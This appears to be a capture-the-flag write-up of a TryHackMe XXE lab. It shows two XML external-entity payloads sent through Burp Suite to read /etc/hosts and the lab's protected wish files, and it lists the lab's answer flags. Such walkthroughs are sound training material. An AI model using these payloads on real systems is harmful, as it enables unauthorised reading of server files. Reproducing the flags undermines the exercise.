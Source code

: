 # Day 5: SOC-mas XX-what-ee?

**Connection to the Machine:**
To begin, a virtual machine and AttackBox were utilized for the analysis.

## Approach:

- Analyzed the website: http://10.10.158.231/.

  ![image](https://github.com/user-attachments/assets/a9eace36-dfff-4698-9ba2-34b9b4d8a842)

- `Wish #21` indicates that there are 20 more wishes placed by other users.
- Upon clicking `Wish #21`, a forbidden page is encountered which can only be accessed by admins - `/wishes/wish_1.txt`.

  ![image](https://github.com/user-attachments/assets/978c08d8-0fed-44fd-8bd7-829596e7718f)

- Opened Burp Suite.
- Enabled `Allow Burp's browser to run without a sandbox` option from settings.
- Opened Burp's browser from the Proxy -> Intercept tab and went to the given URL: http://10.10.158.231/.
- Clicked `Add to Wishlist` which was logged in Burp Suite. The request contained XML being forwarded as a POST request.
- Sent the POST request to `Repeater`.
- Updated the XML payload with the new data and then sent the modified request.
 
  new payload:
  
```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

![image](https://github.com/user-attachments/assets/7b1e50dc-1243-4737-964e-18198b8adefa)

- Updated the XML payload in order to read the wishes of the townspeople using the `/wishes/wish_1.txt` page and then sent the modified request.

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```

![image](https://github.com/user-attachments/assets/66a698a4-9499-4215-a156-c38a8599344c)

- Iterated through the wishes (wish_1.txt, wish_2.txt, ...) and found the flag on wish 15.

![image](https://github.com/user-attachments/assets/69b3c27f-779d-4106-9faf-5ef5a22970b5)

---

## Answers to the given questions:

What is the flag discovered after navigating through the wishes?

```
THM{Brut3f0rc1n6_mY_w4y}
```

---

What is the flag seen on the possible proof of sabotage?

```
THM{m4y0r_m4lw4r3_b4ckd00rs}
```

A CHANGELOG file exists within the web application, stored at the following endpoint: http://10.10.158.231/CHANGELOG

![image](https://github.com/user-attachments/assets/e5e9397e-678a-49db-a603-54a96573e93a)

---

